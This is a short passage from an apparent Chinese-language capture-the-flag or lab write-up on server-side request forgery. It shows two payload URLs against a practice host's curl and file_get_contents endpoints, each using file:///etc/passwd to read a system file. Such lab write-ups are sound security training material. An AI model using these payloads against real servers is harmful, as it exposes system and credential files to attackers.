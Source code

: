 ```
http://3caf3f99-a318-4504-9a53-16a03b792b38.node5.buuoj.cn:81/vul/ssrf/ssrf_curl.php?url=file:///etc/passwd
```



#### SSRF(file_get_content)

同curl

```
http://3caf3f99-a318-4504-9a53-16a03b792b38.node5.buuoj.cn:81/vul/ssrf/ssrf_fgc.php?file=file:///etc/passwd
```



<p style="text-align: right;">
by. Huaji
</p>